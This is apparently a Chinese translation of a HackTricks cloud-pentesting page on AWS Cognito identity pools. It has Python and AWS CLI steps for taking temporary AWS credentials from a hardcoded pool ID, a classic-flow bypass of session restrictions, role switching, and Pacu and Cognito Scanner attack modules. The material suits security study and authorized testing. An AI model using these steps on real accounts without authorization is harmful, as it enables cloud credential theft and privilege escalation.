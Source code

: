# Cognito 身份池

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## 基本信息

身份池通过使用户能够**获取临时凭证**发挥着至关重要的作用。这些凭证对于访问各种 AWS 服务至关重要，包括但不限于 Amazon S3 和 DynamoDB。身份池的一个显著特点是它们支持匿名访客用户以及一系列身份提供者进行用户认证。支持的身份提供者包括：

- Amazon Cognito 用户池
- 诸如 Facebook、Google、Login with Amazon 和 Sign in with Apple 等社交登录选项
- 遵守 OpenID Connect (OIDC) 的提供者
- SAML (安全断言标记语言) 身份提供者
- 开发者认证的身份
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito 同步

要生成身份池会话，您首先需要**生成一个身份 ID**。这个身份 ID 是**该用户会话的标识**。这些标识最多可以有 20 个数据集，可以存储高达 1MB 的键值对。

这对于**保持用户信息**（他们将始终使用相同的身份 ID）很有用。

此外，服务 **cognito-sync** 是允许**管理和同步这些信息**的服务（在数据集中，通过流和 SNS 消息发送信息等）。

### 用于渗透测试的工具

* [Pacu](https://github.com/RhinoSecurityLabs/pacu)，AWS 漏洞利用框架，现在包括 "cognito\_\_enum" 和 "cognito\_\_attack" 模块，这些模块自动枚举账户中的所有 Cognito 资产并标记弱配置、用于访问控制的用户属性等，并自动化用户创建（包括 MFA 支持）和基于可修改的自定义属性、可用的身份池凭证、id 令牌中的可假设角色等进行权限提升。

有关模块功能的描述，请参阅 [博客文章](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2)的第 2 部分。有关安装说明，请参阅主要的 [Pacu](https://github.com/RhinoSecurityLabs/pacu) 页面。

#### 使用方法

尝试针对给定身份池和用户池客户端创建用户和所有权限提升向量的示例 cognito\_\_attack 使用方法：
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
```markdown
示例 cognito__enum 用法，用于收集当前 AWS 账户中可见的所有用户池、用户池客户端、身份池、用户等信息：
```
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) 是一个用 Python 编写的 CLI 工具，它实现了对 Cognito 的不同攻击，包括不必要的账户创建和身份池升级。

#### 安装
```bash
$ pip install cognito-scanner
```
#### 使用方法
```bash
$ cognito-scanner --help
```
有关更多信息，请查看 https://github.com/padok-team/cognito-scanner

## 访问 IAM 角色

### 未经认证

攻击者作为未经认证的用户在 Cognito 应用中**获取 AWS 凭证**所需知道的唯一信息是**身份池 ID**，而这个**ID 必须硬编码**在网页/移动**应用程序**中以便使用。一个 ID 看起来像这样：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（它不可被暴力破解）。

{% hint style="success" %}
默认情况下，通过创建的**IAM Cognito 未经认证角色称为** `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

如果你找到了一个硬编码的身份池 ID，并且它允许未经认证的用户，你可以用以下方式获取 AWS 凭证：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
或者您可以使用以下的 **aws cli 命令**：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
请注意，默认情况下，未经认证的 Cognito **用户即使通过策略分配了权限，也**不能拥有任何权限。请检查下一节。
{% endhint %}

### 增强型与基础型认证流程

前一节介绍了**默认的增强型认证流程**。该流程为生成的 IAM 角色会话设置了一个**限制性的**[**会话策略**](../../aws-basic-information/#session-policies)，该策略只允许会话[**使用此列表中的服务**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（即使角色可以访问其他服务）。

然而，如果**身份池启用了“基础（经典）流程”**，用户将能够使用该流程获取会话，而**该会话不会有那种限制性会话策略**。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
如果您收到此**错误**，那是因为**基本流程未启用（默认）**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

拥有一组IAM凭证后，您应该检查[您拥有哪些访问权限](../../#whoami)并尝试[提升权限](../../aws-privilege-escalation/)。

### 已认证

{% hint style="info" %}
请记住，**已认证用户**可能会被授予**不同的权限**，所以如果您可以**在应用程序内注册**，尝试这样做并获取新的凭证。
{% endhint %}

对于**已认证用户访问身份池**也可能有**角色**可用。

为此，您可能需要访问**身份提供者**。如果是**Cognito 用户池**，也许您可以利用默认行为**自己创建一个新用户**。

{% hint style="success" %}
通过**IAM Cognito 认证角色创建默认称为** `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

无论如何，**以下示例**假设您已经在用于访问身份池的**Cognito 用户池**内登录（不要忘记还可以配置其他类型的身份提供者）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 从上一个命令响应中获取 identity_id
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# 在 IdToken 中可以找到用户因用户池组而能访问的角色
# 使用 --custom-role-arn 获取特定角色的凭证
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
可以**根据用户登录的身份提供者配置不同的IAM角色**，甚至仅仅**根据用户**（使用声明）。因此，如果您可以通过相同或不同的提供者访问不同的用户，登录并访问他们所有人的IAM角色可能是**值得的**。
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零到英雄学习AWS黑客攻击！</strong></summary>

其他支持HackTricks的方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

